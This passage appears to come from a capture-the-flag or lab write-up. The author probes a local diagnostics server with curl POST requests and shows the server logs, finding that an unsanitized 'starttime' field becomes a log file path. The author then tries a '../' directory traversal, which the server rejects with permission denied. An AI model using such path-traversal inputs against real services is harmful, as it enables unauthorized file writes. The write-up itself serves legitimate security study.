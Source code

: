 ```
curl -X POST "http://localhost:50505/diagnostics" -d @statusdata_mod_pretty.json
```

```
{diagserver} 2023/11/04 18:40:46.318379 Starting connection timer...
{diagserver} 2023/11/04 18:40:46.318612 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 18:40:46.319160 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: no such file or directory
{diagserver} 2023/11/04 18:40:46.319173 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 18:40:46.319178 Content-Length: 0
{diagserver} 2023/11/04 18:40:46.319182 server to client body:
{diagserver} 2023/11/04 18:40:46.348772 EOF
2023/11/04 14:40:46 socat[2340372] E waitpid(): child 2340373 exited with status 1

```

It looks like I got lucky with this specifically because I copied the time out of the logs. It appears that the `starttime` value is used as the name of a logfile, but because the time format I (and diagserver) used contained a forward slash `/`, it tried to access a non-existent directory.  It also looked like the path from the previous bit wasn't sanitized at all, so I decided to play around with it a bit to see what I could accomplish.


## directory discovery
Testing out a little bit more:

A starttime of `aaaaaaaaaaaaaaaaaaaaaaaaa` didn't throw an error at all. Unfortunately I wasn't able to directly `curl -X GET` anything out of the filepath that was leaked in the error message, even when I knew an actual valid filename, `aaaaaaaaaaaaaaaaaaaaaaaaa.json`, so `GET` requests seemed like they werent usable for this.
```
curl -X POST "http://localhost:50505/diagnostics" -d '{"command_response":{"id": "00000000-0000-0000-0000-000000000000","starttime": "aaaaaaaaaaaaaaaaaaaaaaaaa","endtime": "2023/11/04 18:37:55.67755","cmd":"ps","stdout":"","stderr":"","err":""}}'
```
```
2023/11/04 21:41:17 Diagnostic Server starting...
2023/11/04 21:41:22 ready
{diagserver} 2023/11/04 21:41:22.978601 Starting connection timer...
{diagserver} 2023/11/04 21:41:22.978764 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 21:41:22.978912 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2023/11/04 21:41:22.978928 HTTP/1.1 200 OK
{diagserver} 2023/11/04 21:41:22.978933 Content-Length: 75
{diagserver} 2023/11/04 21:41:22.978937 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
{diagserver} 2023/11/04 21:41:23.158752 EOF
```

It looks like I get a `permission denied` when trying to do a directory traversal to write to `/diagnostics/var/logs/commands/by-ip/64/7F/00/`
```
2023/11/04 19:13:56 Diagnostic Server starting...
2023/11/04 19:14:01 ready
{diagserver} 2023/11/04 19:14:01.150118 Starting connection timer...
{diagserver} 2023/11/04 19:14:01.150285 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:01.150338 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: permission denied
{diagserver} 2023/11/04 19:14:01.150353 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:01.150360 Content-Length: 0
{diagserver} 2023/11/04 19:14:01.150365 server to client body:
{diagserver} 2023/11/04 19:14:01.233391 EOF
```